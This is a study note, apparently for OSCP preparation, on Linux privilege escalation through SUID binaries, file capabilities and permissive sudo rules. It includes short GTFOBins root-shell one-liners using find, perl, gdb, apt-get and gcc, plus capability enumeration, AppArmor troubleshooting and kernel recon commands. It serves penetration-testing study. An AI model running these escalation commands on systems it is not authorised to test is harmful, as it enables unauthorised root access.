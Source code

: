 ```yaml
---
aliases:
  - Insecure System Components
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - linux
  - enumeration
  - enum
  - automated
  - privesc
  - privilege_escalation
  - password
  - system_components
  - suid
  - sudo
  - kernel_exploit
author: Mehdi N Tehrani
creat_date: 2024-01-01
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Abusing setuid binaries and capabilities
## SUID
Let's examine a running process e.g. `passwd`
```sh
ps u -C passwd
#  ^ user-oriented format
#     ^ command name

grep Uid /proc/<pid>/status
Uid:    1000    0       0       0
#       ^ real uid
#               ^ effective uid
#                       ^ saved set uid
#                               ^ file system uid
               
```
https://man7.org/linux/man-pages/man5/proc.5.html

For example if the `find` command has suid set, we can run the following command to abuse it:
https://gtfobins.github.io/gtfobins/find/#suid
```
./find . -exec "/bin/bash" -p \; -quit
```


## Capabilities
#capabilities
Even though they seem similar, *capabilities*, *setuid*, and the *setuid flag* are located in different places within the Linux ELF file format.

```sh
/usr/sbin/getcap -r / 2>/dev/null
```
example output:
```
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
`+ep`: effective / permitted

### perl
#perl
to set `ep` capabilities for `perl`
```
sudo setcap cap_setuid+ep perl
```
To abuse capabilities of `perl`:
https://gtfobins.github.io/gtfobins/perl/#capabilities
```sh
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

### gdb
#gdb
To abuse capabilities of `gdb `: 
https://gtfobins.github.io/gtfobins/gdb/#capabilities
```sh
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```

## sudo
[sudo](https://man7.org/linux/man-pages/man8/sudo.8.html)
[sudoers](https://man7.org/linux/man-pages/man5/sudoers.5.html)
If the `/etc/sudoers` configurations are too permissive, a user could abuse the short-lived administrative right to obtain permanent root access. 

### troubleshooting
#app_armor #apparmor #mac #mandatory_access_control #audit_daemon
If we try abusing `tcpdump` using sudo but it still fails, we can further investigate it:
```sh
cat /var/log/syslog | grep tcpdump

Aug 29 02:52:14 debian-privesc kernel: [ 5742.171462] audit: type=1400 audit(1661759534.607:27): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.c5hrJ5UrsF" pid=12280 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```
[audit](https://man7.org/linux/man-pages/man8/auditd.8.html) daemon has logged our privilege escalation attempt. Closer inspection reveals that [AppArmor](https://apparmor.net/) was triggered and blocked us. AppArmor is a **kernel module** that provides **mandatory access control** (**MAC**) on Linux systems by running various *application-specific profiles*, and it's enabled by default on Debian 10. 

We can verify AppArmor's status as the root user using the `aa-status` command. #aa_status
```sh
aa-status

apparmor module is loaded.
20 profiles are loaded.
18 profiles are in enforce mode.
   /usr/bin/evince
   /usr/bin/evince-previewer
   /usr/bin/evince-previewer//sanitized_helper
   /usr/bin/evince-thumbnailer
   /usr/bin/evince//sanitized_helper
   /usr/bin/man
   /usr/lib/cups/backend/cups-pdf
   /usr/sbin/cups-browsed
   /usr/sbin/cupsd
   /usr/sbin/cupsd//third_party
   /usr/sbin/tcpdump
```

#sudo #apt_get #apt-get
https://gtfobins.github.io/gtfobins/apt-get/#sudo
```sh
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

### gcc
#gcc #sudo 
```sh
sudo gcc -wrapper /bin/sh,-s .
```


# Kernel Exploits
#kernel_exploits #kernel #exploit #architecture #arch #uname
```
cat /etc/issue
uname -a
arch
```

